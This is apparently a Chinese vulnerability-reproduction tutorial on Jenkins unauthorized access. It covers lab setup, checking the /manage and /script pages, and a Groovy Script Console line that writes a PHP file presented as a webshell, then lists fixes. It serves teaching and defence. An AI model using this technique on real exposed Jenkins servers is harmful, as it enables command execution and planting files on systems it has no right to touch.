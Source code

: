 Jenkins 是一个开源软件项目，是基于 Java 开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件的持续集成变成可能。Jenkins 默认监听端口为 8080。

漏洞原因：未设置密码，导致未授权访问。

更多 Jenkins 的介绍请移步：https://www.w3cschool.cn/jenkins/

### 漏洞复现

#### 环境搭建

wget http://mirrors.jenkins.io/debian/jenkins\_1.621\_all.deb # 下载

dpkg -i jenkins\_1.621\_all.deb # 安装

service Jenkins start #开启服务

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuKicnf6e3E9pibd9kjkyt7lTibQibCJh3JPqUbeMbQXtWfSuibWTCY7aK5hw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4kturwku1EQ6KmraEXn7sfhVd0CduEtZawoE3XbBcuJgcLt6h0vXbHP1Rg/640?wx_fmt=jpeg)

#### 漏洞检测

直接通过 url 访问

http://:8080/manage

http://:8080/script

没有任何限制

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuI1g1DapWfpb3wUteoGR8kXf5USTls5nmLIIwoAR35qajZgNTF4dy5g/640?wx_fmt=jpeg)

#### 漏洞利用

1、点击 script console

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu6F9ib7u8PUFjDRLIeZ6ECMvH6SQK5E73ahBLRiaNEc8l0NeqyPgz0MjQ/640?wx_fmt=jpeg)

2、执行系统命令, 下图看到成功执行系统命令

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuLVaJIbOctsY4eU5TwvVZjL7fEvLTxGlupziaBZdLOIf9xYjFK0PDNpg/640?wx_fmt=jpeg)

3、利用 Script Console 上传 webshell, 内容如下:

new File(“/var/www/html/phpinfo.php”).write(‘<?php phpinfo();?>’);

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktutVvBmyNsTuIG6HU3DibZzzO3nn0eQIW9J3mibrkHVt4rkFJV58Fb3egQ/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuVOQZzEvplITnwg7aK7vWtgO2S6iayvYficEof5wYibjkBO6vbpMpibwpOw/640?wx_fmt=jpeg)

### 修复方法

1、对后台控制页面做登录验证限制

2、升级版本

Jupyter Notebook 未授权访问漏洞
------------------------
